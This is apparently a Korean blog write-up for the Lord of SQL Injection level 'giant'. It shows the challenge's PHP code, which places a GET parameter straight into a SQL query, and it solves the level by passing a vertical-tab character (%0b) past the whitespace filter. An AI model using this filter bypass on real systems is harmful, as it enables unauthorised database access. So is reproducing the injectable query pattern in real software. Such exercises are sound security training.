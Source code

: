 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - giant 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제는 `giant` 이다.  

갑자기 소스코드가 너무 간단해져서 당황했다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------
query : select 1234 fromprob_giant where 1
----------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(strlen($_GET[shit])>1) exit("No Hack ~_~"); 
  if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe"); 
  $query = "select 1234 from{$_GET[shit]}prob_giant where 1"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result[1234]) solve("giant"); 
  highlight_file(__FILE__); 
?>
```

앞의 문제들에 있었던 필터링들이 싹 사라졌다.  

또 `pw`나 `no`를 입력하는게 아니라 이번엔 `shit`라는 값을 넘겨주어야 하는데, 이 값이 `from`과 `prob_giant` 즉, `table 명` 사이에 있다.  

때문에 아무런 값이 없을 경우, `fromprob_giant`가 되어 제대로 쿼리가 실행되지 않는다.  

문제를 풀기 위해서는 `$result[1234]`가 있으면 된다.  

문제의 쿼리에서 `select 1234`라고 되어 있으니, 해당 쿼리만 제대로 실행되도록 만들어 주면 될 것 같다.  

그러기 위해서는 `공백`이 필요하다.  

그런데 필터링에 `공백`, `\n`, `\r`, `\t`가 있어서, 어지간한 공백 문자로는 공백을 만들어낼 수 없다.  

아스키코드표를 자세히 보면 `0x0b` 값을 보면 `VT` 혹은 `Vertical Tab`이라는 문자가 있다.  

반면 우리가 흔히 알고있는 `0x09`는 `HT` 혹은 `Horizontal Tab`이다.  

`0x09`가 가로로 탭을 하는 것이라면, `0x0b`는 세로로 탭을 하는 것이라고 생각하면 될 것 같다.  

그런데 이 `VT`로 `whitespace`에 대한 필터링을 우회할 수 있다.  

`VT`를 값으로 넘겨주기 위해 URL에 `?shit=%0b`를 입력 해 보았다.  

```php
------------------------------------------------------------
query : select 1234 fromprob_giant where 1
------------------------------------------------------------

GIANT Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(strlen($_GET[shit])>1) exit("No Hack ~_~"); 
  if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe"); 
  $query = "select 1234 from{$_GET[shit]}prob_giant where 1"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result[1234]) solve("giant"); 
  highlight_file(__FILE__); 
?>
```

성공적으로 문제를 풀 수 있었다.  

`GIANT Clear!!`
